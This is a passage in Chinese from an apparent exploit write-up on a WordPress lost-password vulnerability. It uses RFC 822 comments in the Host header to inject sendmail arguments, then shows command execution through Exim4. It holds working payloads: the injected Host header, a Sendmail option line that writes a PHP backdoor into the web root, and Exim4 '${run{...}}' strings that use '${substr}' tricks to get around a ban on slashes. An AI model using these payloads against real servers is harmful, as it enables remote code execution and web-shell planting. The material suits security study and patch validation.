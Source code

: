作者之前发现的PHPMailer漏洞中控制的变量username这次又不可控。

对电子邮件标准格式RFC 822进行研究后，作者发现其中提到了注释(comment)的用法，比如john@example.com(comment)。 经过测试，域名的comment中是允许出现空格的，于是有了如下请求头：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 injected tmp2)

代码处理后变量如下：

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [injected]  
	Arg no. 5 == [tmp2)]  

成功绕过了限制并增加了参数。

### 3.3 &emsp;尝试通过Sendmail MTA执行命令 ###

之前已知的命令执行依赖server端使用的Sendmail MTA，比如使用如下参数写日志文件达到写shell的目的： -OQueueDirectory=/tmp/ -X/var/www/html/backdoor.php

这里有两个问题  

1. Sendmail 是linux MTA里使用量最小的MTA
2. 大写会被转换成小写，导致大写参数无法正常使用

### 3.4 &emsp;通过Exim4 MTA执行命令 ###

作者发现通过Exim4 MTA可以实现命令执行，而且使用量在linux中数一数二，增加了漏洞的利用成功率。

可执行命令的形式如下：

	sendmail -be '${run{/bin/true}{true}{false}}'

返回true -be参数使用了扩展字符串模式，会执行/bin/true并根据exit code返回括号中的内容

如下命令：

	sendmail -be '${run{/bin/bash -c "id"}{yes}{no}}'

会执行id命令

注意:在使用Exim4 MTA的系统中，/usr/sbin/sendmail是exim4的软链接

然而又不允许 `/`，作者通过`sendmail -be '${substr{0}{1}{$spool_directory}}'`从系统变量中抽取了`/`,最后拼接了可以在命令行下使用的payload。

执行如下语句

	sendmail -be '${run{/usr/bin/touch /tmp/test}}'

需要改成

	sendmail -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}'  
